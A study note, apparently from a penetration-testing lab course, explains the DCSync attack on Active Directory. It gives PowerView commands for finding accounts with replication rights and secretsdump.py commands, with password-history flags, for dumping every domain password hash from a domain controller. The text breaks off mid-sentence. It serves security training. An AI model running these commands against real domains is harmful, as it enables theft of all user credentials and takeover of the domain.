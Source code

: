 * * *

## DCSync 
DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the DS-Replication-Get-Changes-All extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

### Using Get-DomainUser to View adunn's Group Membership
```
PS > Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

### Using Get-ObjectAcl to Check adunn's Replication Rights
```
PS > $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS > Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

### Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
```bash
$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

# NTLM authentication
$ secretsdump.py -outputfile inlanefreight_hashes <DOMAIN>/<USER>:<PASSWORD>@<DC_IP> 

# Hash authentication
$ secretsdump.py -outputfile inlanefreight_hashes -hash <DOMAIN>/<USER>@<DC_IP> 

# Kerberos authentication
$ secretsdump.py -outputfile inlanefreight_hashes -no-pass -k <DOMAIN>/<USER>@<DC_IP> 
```
We can use the -just-dc-ntlm flag if we only want NTLM hashes or specify -just-dc-user <USERNAME> to only extract data for a specific user. Other useful options include -pwd-last-set to see when each account's password was last changed and -history if we want to dump password history, which may be helpful for offline password cracking or as supplemental data on domain password strength metrics for our client. The -user-status is another helpful flag to check and see if a user is disabled. We can dump the NTDS data with this flag and then filter out disabled users when providing our client with password cracking statistics to ensure that data such as:
